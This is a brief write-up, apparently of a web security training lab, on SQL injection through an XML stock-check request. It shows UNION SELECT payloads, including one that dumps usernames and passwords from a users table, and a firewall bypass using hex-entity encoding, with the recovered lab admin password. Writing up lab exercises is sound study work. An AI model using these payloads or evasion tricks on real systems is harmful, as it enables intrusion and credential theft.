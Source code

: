 # SQL injection with filter bypass via XML encoding

1. SQLi: stock check feature.
2. Goal: log in to `administrator` account.

### Analysis
- Website target: `https://0ad70050049e041f80194e1c00ba00e7.web-security-academy.net/`
- Use Burp suite.
- `Hackvertor` extention to encode.

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1 UNION SELECT NULL <!--"Attack detected": Firewall protecion.-->
    </storeId>
</stockCheck>
```

```sql
1 UNION SELECT NULL
-- Use 'Hackvertor' extention.
-- Hackervertor > Encode > hex_entities.

-- I found 'NULL' and it just have 1 column.
```

```sql
1 UNION SELECT username || ' - ' || password FROM users
-- administrator - 86ejwwqp4h0rr3tepyfp
```